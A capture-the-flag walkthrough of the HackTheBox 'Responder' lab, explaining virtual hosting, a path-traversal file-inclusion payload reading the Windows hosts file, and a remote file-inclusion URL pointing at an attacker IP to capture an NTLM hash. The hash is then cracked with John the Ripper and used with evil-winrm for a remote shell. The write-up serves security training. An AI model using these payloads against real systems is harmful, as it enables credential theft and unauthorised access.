This is the responder ctf from tier 1 starting point and it's difficulty is very easy.

task1:We try visiting the web service using the ip address but are redirected  to another domain. which is "unika.htb".


task 2: On using curl -I we can see info about the as X-powered by: php


Now when we try to open the url in the browser we get something like this...

This happens because of virtual hosting. The connected server may be hosting multiple websites that need to be accessed using their correct hostname.

By default, when we access a website using an IP address, our HTTP request does not include the expected hostname in the Host header. Since the hostname (unika.htb) isn't available in our /etc/hosts file or any nearby DNS server, the server doesn't know which website to serve, leading to redirection or an error.

To fix this, we manually add an entry in /etc/hosts specifying that requests to that IP should be associated with "unika.htb". This ensures that when a request is sent to the server, it includes the correct Host header (unika.htb), allowing us to connect to the intended website.

So, first add the host name in the file.
use nano /etc/hosts to open the file,

Now enter the host name into it.

On reloading the site now we get...

We use the page URL parameter to load different language versions of the webpage (task 3).
Just add ?page=german.html to the URL

and now we get the page in German

task 4: the option which exploits a LFI(Local File Include) vulnerability is the third option -> "../../../../../../../../windows/system32/drivers/etc/hosts"
As this option tries to traverse backwards and then traverse to a system file "hosts".


task 5: "//10.10.14.6/somefile" is a RFI (remote file inclusion) vulnerability. This allows us to load some file into the server file system. Such files could be malicious scripts which would cause harm to the server.

task 6: NTLM is New Technology LAN Manager, it is a protocol that authenticates users and computers on a network.

task 7:
Responder uses the -I flag to specify network interface.

task 8:
The tool is John the ripper. We use this to crack passwords.

task 9:
First we get the ip using 

We then run our responder tool

now we use this ip in the URL http://unika.htb/?page=//< ip >>/somefile

When we return to the terminal running responder we see...

NetNTLMv hash is captured.Save that hash to a file.


Now we need to crack the hash for which we use John the ripper.

We use the rockyou.txt file which containts commonly used passwords.
Hence we got the admin password as badminton.

task10: By a nmap scan we find the port running tcp


To access the windows machine(server) remotely we use evil-winrm which helps to access it via window remote management (winrm). It provides a remote shell access to the windows machine.

Now we navigate through the folders searching for flag.txt
We will find it in user/mike/Dektop
use "type flag.txt" to get the flag content.
